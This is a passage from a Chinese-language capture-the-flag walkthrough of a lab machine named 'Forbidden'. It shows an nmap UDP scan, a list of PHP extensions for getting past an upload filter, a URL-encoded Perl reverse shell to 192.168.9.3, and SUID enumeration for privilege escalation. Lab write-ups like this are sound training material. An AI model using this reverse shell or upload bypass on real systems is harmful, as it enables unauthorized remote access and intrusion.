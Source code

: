 ## 3. 目录扫描

这里没必要扫目录了。因为我们ftp连接上去的就是网站目录

这里扫一下udp服务

看有没有其他开发的udp端口

```Bash
┌──(root㉿kali)-[/home/kali]
└─# nmap -sU 192.168.9.12  -p 1-100
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-06 12:56 CST
Nmap scan report for 192.168.9.12
Host is up (0.00058s latency).
Not shown: 99 closed udp ports (port-unreach)
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
MAC Address: 08:00:27:2E:11:DB (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 114.69 seconds
```
也没有什么东西

根据首页的提示 说Php配置可能会有突破口。

绕过Php不断修改php后缀名

```Bash
Php|php2|php3|php4|php5|php6|php7|pht|phtm|phtml
```
发现.php5可以被解析

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/10.Forbidden.002.png)

直接弹shell

```Bash
perl%20-e%20%27use%20Socket%3B%24i%3D%22192.168.9.3%22%3B%24p%3D1122%3Bsocket%28S%2CPF\_INET%2CSOCK\_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr\_in%28%24p%2Cinet\_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh%20-i%22%29%3B%7D%3B%27
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/10.Forbidden.003.png)

## 4. 提权

```Shell
(remote) www-data@forbidden:/tmp$ find / -perm -4000 2>/dev/null
/home/marta/.forbidden
/usr/bin/mount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/su
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/passwd
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
(remote) www-data@forbidden:/tmp$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:
```
执行这个文件后获取到了markos的用户权限
